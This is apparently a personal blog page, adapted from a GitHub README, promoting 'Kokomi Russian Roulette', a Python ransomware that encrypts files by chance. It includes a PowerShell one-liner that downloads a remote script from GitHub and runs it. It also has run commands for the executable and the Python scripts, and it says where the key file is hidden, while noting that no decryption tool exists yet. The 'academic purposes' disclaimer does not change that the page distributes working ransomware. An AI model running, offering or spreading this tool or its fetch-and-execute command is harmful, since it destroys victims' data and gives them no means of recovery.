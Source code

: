 ```yaml
---
layout: post
header-style: text
title: Kokomi Russian Roulette.
img: img/projects/krr/krr-header.webp
---
```


<p align="center">
<img src="/img/projects/krr/kokomi-endgame.webp" alt="drawing" width="500"/><br>
</p>

`This is almost a copy of the README from the repository on github`{:.success}

### What is?
<p style="text-align:justify">It is a simple ransomware written in Python with the cryptography library inspired by the Kokomi-themed Russian roulette game.  6 cabins, one chance to be encrypted</p>

Github repo here: [Kokomi Russian Roulette](https://github.com/quantumwavves/Kokomi-Russian-Roulette)

### Warning
`This software was created for academic and learning purposes only. I am not responsible for any misuse that may occur.`{:.warning}

### Use

One line in powershell (without shortener, since the misuse of these is prohibited by the terms and services of the same.)
```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/krr-oneline.ps1 | iex
```
Normal usage (powershell or cmd, not have GUI)
```console
$ kokomi-russian-roulette.exe
```
Dev `(I recommend using a python virtual environment)`{:.info}
```console
$ .\env\Scripts\activate
$ pip install -r requirements.txt
$ python krr-fernet.py
# Alternative version with pyAes, more slow, but more secure
$ python krr-aes.py
```
### Decrypt files (key)
K.R.R generates a unique, randomized carry for each execution of the kokomi() function. It is stored in a .png file in the following path $env:temp or also known as %temp% with the name `sngmy.png`{:.warning}, decryption program to be created soon.

### To do list
- [ ] Port another language more speed, like C++ or C.
- [ ] Create README with instructions for decryption.
- [ ] Create decryption function
- [ ] Optimize execution times
### Demo

This is a demo, using the one line version of powershell

<p style="text-align: center">
<video width="600" height="400" controls>
  <source src="/img/projects/krr/krr-demo.mp4" type="video/mp4">
</video>
</p>

### Inspiration
- [NaGa](https://github.com/ic4rta/NaGa)
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi)
